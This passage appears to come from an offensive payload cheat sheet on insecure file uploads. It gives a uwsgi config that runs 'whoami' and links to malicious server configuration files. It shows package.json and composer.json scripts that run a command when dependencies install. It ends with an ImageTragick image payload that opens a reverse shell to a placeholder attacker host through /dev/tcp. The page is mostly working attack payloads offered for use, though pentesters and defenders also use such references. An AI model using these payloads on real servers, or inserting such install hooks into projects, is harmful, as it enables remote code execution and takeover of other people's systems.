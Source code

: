 ```bash
; read from a process stdout
body = @(exec://whoami)
; call a function returning a char *
characters = @(call://uwsgi_func)

```

Configuration files examples

* [.htaccess](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess)
* [web.config](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config)
* [httpd.conf](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Busybox%20httpd.conf)
* [__init__.py](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Python%20__init__.py)
* [uwsgi.ini](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20uwsgi.ini/uwsgi.ini)


Alternatively you may be able to upload a JSON file with a custom scripts, try to overwrite a dependency manager configuration file.

* package.json
```json
"scripts": {
    "prepare" : "/bin/touch /tmp/pwned.txt"
}

```
* composer.json
```json
"scripts": {
    "pre-command-run" : [
    "/bin/touch /tmp/pwned.txt"
    ]
}

```

## ImageMagick
If the backend is using ImageMagick to resize/convert user images, you can try to exploit well-known vulnerabilities such as ImageTragik.
* ImageTragik example: Upload this content with an image extension to exploit the vulnerability (ImageMagick , 7.0.1-1)
```bash
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
pop graphic-context

```
More payloads in the folder `Picture ImageMagick`
- https://4lemon.ru/2017-01-17_facebook_imagetragick_remote_code_execution.html
- https://hackerone.com/reports/403417
- https://imagemagick.org/index.php
- https://www.cobalt.io/blog/imagetragick
- 
